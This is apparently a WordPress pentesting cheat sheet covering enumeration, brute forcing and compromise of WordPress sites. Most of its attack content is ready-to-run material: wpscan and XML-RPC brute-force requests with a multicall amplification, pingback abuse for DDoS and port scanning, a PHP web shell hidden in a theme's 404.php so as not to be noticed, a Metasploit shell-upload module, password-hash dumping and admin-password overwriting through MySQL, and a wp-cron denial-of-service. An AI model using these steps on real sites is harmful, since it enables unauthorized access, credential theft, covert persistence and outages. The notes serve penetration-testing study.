

# Pentesting wordpress

## Important wordpress files and directories

**Login/Authentication**

- /wp-login.php (This is usually changed to /login.php for security)
- /wp-admin/login.php
- /wp-admin/wp-login.php 
- xmlrpc.php - (Extensible Markup Language - Remote Procedure Call) is a protocol that allows external applications and services to interact with a WordPress site programmatically. This has been replaced by the WordPress REST API.

**Directories**

- /wp-content - Primary directory used to store plugins and themes.
- /wp-content/uploads/ - Directory where uploaded files are stored (Usually prone to directory listing).
- /wp-config.php - Contains information required by WordPress to connect to a database. (Contains database credentials)


## Enumeration

### Dorking techniques

```
inurl:"/xmlrpc.php?rsd" + scoping restrictions

intitle:"WordPress" inurl:"readme.html" + scoping restrictions = general wordpress detection

allinurl:"wp-content/plugins/" + scoping restrictions = general wordpress detection
```


### Wordpress version 

```bash
# Using curl for getting generator meta tag
curl -s -X GET https://example.com | grep '<meta name="generator"'

# Using curl for getting version from src files 
curl -s -X GET <URL> | grep http | grep -E '?ver' | sed -E 's,href==|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2

```

**Manual techniques**

- Check WordPress Meta Generator Tag.
- Check the WordPress readme.html/license.txt file.
- Inspect HTTP response headers for version information (X-Powered-By).
- Check the login page for the WordPress version as it is usually displayed.
- Check the WordPress REST API and look for the version field in the JSON response (http://example.com/wp-json/)
- Analyze JS and CSS files for version information.
- Examine the WordPress changelog files with information on version updates. Look for files like changelog.txt or readme.txt in the WordPress directory


### Plugin enumeration

```bash
# curl
curl -s -X GET http://example.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2

# wpscan
wpscan --url http://<TARGET> --plugins-detection passive
# Modes: -mixed (default), -passive or -active

```

### Themes enumeration

```bash
# Using curl
curl -s -X GET http://example.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2
```


### User enumeration

```bash
# Using curl
curl -s -I -X GET http://blog.inlanefreight.com/?author=1

# json enumeration
curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq

# wpscan
wpscan --url https://target.tld/domain --enumerate u
wpscan --url https://target.tld/ -eu

# Enumerate a range of users 1-100
wpscan --url https://target.tld/ --enumerate u1-100
wpscan --url http://46.101.13.204:31822 --plugins-detection passive


```

Manual method: users in wordpress have unique identifiers. Usually first user in wordpress has id 1. Second user, id 2. So in the browser you can write:

```
http://example.com/wordpressPath?author=1
```

#### nmap enumeration


```
# List nmap scripts related to wordpress
ls -la /usr/share/nmap/scripts | grep wordpress
```

Results:

```
-rw-r--r-- 1 root root  5061 Nov  1 22:10 http-wordpress-brute.nse
-rw-r--r-- 1 root root 10866 Nov  1 22:10 http-wordpress-enum.nse
-rw-r--r-- 1 root root  4641 Nov  1 22:10 http-wordpress-users.nse
```

Running one of them:

```
# General enumeration
sudo nmap -sS -sV --script=http-wordpress-enum <TARGETwithnohttp> 

# Plugins enumeration
sudo nmap -sS -sV --script=http-wordpress-enum --script-args type="plugins" <TARGETwithnohttp> -p 80,443

# User enumeration
sudo nmap -sS -sV --script=http-wordpress-users <TARGETwithnohttp> 
```


## Brute force attack on login

Usually, login form is located at example.com/wp-admin/login.php

But sometimes, login form is hidden under a different path. There exist plugins to do so.

```bash
# Brute force attack with passwords
wpscan --url HOST/domain -usernames admin, webadmin  --password-attack wp-login -passwords filename.txt
# -usernames: those users that you are going to brute force
# --password-attack: your URI target (different in the case of the WP api
# -passwords: path/to/dictionary.txt


wpscan --url  <targetURLnohttp> -U admin -P /usr/share/wordlists/rockyou.txt   
```

## Enumerating files and folders

```
# Using gobuster
gobuster dir --url https://example.com --wordlist /usr/share/seclists/Discovery/Web-Content/CMS/wordpress.fuzz.txt -b '404'
```

Check out if directory listing is enabled.


## WordPress xmlrpc attacks 

XML-RPC on WordPress is actually an API that allows developers who make 3rd party application and services the ability to interact to your WordPress site. The XML-RPC API that WordPress provides several key functionalities that include:

- Publish a post.
- Edit a post.
- Delete a post.
- Upload a new file (e.g. an image for a post).
- Get a list of comments.
- Edit comments.

XML-RPC functionality is turned on by default since WordPress 3.5. Therefore, normal installation of wordpress allows us to perform two type of attacks:

- XML-rpc ping attacks.
- Brute force attack.


**Before attacking**, we need to make sure that there exist XML-RPC servers on the wordpress installation:

**1.** Ensure you have access to the xmlrpc.php file (usually at https://example.com/xmlrpc.php). 

**2.** Send a POST request: .

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 135

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```





Same request with curl would be:

```
curl -X POST -d "<?xml version=\"1.0\" encoding=\"utf-8\"?> <methodCall> <methodName>system.listMethods</methodName> <params></params></methodCall>" http://example.com/xmlrpc.php
```

Normal response to this request would be listing all available methods.

This is how you trigger the method blogger.getUsersBlogs:


### XML-RPC brute force attack

With wpscan:

```bash
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://<TARGET>
```

Use BurpSuite Intruder to send this request:

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 235

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```

You can also perform a single request, and brute force hundreds of passwords. For that you need to use both system.multicall and wp.getUsersBlogs methods:

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 1560

<?xml version="1.0"?>
<methodCall><methodName>system.multicall</methodName><params><param><value><array><data>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

</data></array></value></param></params></methodCall>
```

### XML-RPC uploading a file

Using the correct credentials you can upload a file. In the response the path will appears ([source for this: hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress)):

```
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>username</string></value></param>
		<param><value><string>password</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>filename.jpg</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>mime/type</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```


### XML-RPC pingback attack: Distributed denial-of-service (DDoS) attacks 

An attacker executes the pingback.ping the method from several affected WordPress installations against a single unprotected target (botnet level).


### XML-RPC pingback attack: Cloudflare Protection Bypass

An attacker executes the pingback.ping the method from a single affected WordPress installation which is protected by CloudFlare to an attacker-controlled public host (for example a VPS) in order to reveal the public IP of the target, therefore bypassing any DNS level protection.


### XML-RPC pingback attack: XSPA (Cross Site Port Attack) 

An attacker can execute the pingback.ping the method from a single affected wordpress installation to the same host (or other internal/private host) on different ports. An open port or an internal host can be determined by observing the difference in time of response and/or by looking at the response of the request.


The following represents an simple example request using the Burpsuite Collaborator provided URL as callback:

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 303

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>https://pdaskjdasas23fselrkfdsf.oastify.com/1562017983221-4377199190203</string></value>
</param>
<param>
<value><string>https://example.com/</string></value>
</param>
</params>
</methodCall>
```


```bash
# Brute force with curl
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

# If the credentials are not valid, we will receive a 403 faultCode error.
```


## RCE attack on wordpress

Once you have credentials for user admin, access the admin panel and introduce a web shell. Where? Appearance > Theme editor. Choose a theme not in use and edit 404.php to add the shell. This is a quiet way not to be noticed.

At the end of the file, you can add:

```php
system($_GET['cmd']);
```

**Exploitation**:

```bash
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

## Metasploit modules

```msf
use exploit/unix/webapp/wp_admin_shell_upload
```

## Interesting files

If somehow we get our hands on wp-config.php, then we will be able to see credentials to database. 


## Post Exploitation

Extract usernames and passwords:

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

Change admin password:

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('hacked') WHERE ID = 1;"
```

## wp-cron.php attack

The WordPress application is vulnerable to a Denial of Service (DoS) attack via the wp-cron.php script. This script is used by WordPress to perform scheduled tasks, such as publishing scheduled posts, checking for updates, and running plugins.

An attacker can exploit this vulnerability by sending a large number of requests to the wp-cron.php script, causing it to consume excessive resources and overload the server. This can lead to the application becoming unresponsive or crashing, potentially causing data loss and downtime.

Steps to Reproduce:

- Get the doser.py script at https://github.com/Quitten/doser.py
- Use this command to run the script:

```
python3 doser.py -t 999 -g 'https://█████/wp-cron.php'
```

- Go to https://████ after 1000 requests of the doser.py script. The site returns code 502. See the video PoC.


To mitigate this vulnerability, it is recommended to disable the default WordPress wp-cron.php script and set up a server-side cron job instead.  
Here are the steps to disable the default wp-cron.php script and set up a server-side cron job:

1. Access your website’s root directory via FTP or cPanel File Manager.
2. Locate the wp-config.php file and open it for editing.
3. Add the following line of code to the file, just before the line that says “That’s all, stop editing! Happy publishing.”:

```
define('DISABLE_WP_CRON', true);
```

4. Save the changes to the wp-config.php file.
5. Set up a server-side cron job to run the wp-cron.php script at the desired interval. This can be done using the server’s control panel or by editing the server’s crontab file.


## Tools


[wpscan](wpscan.md)
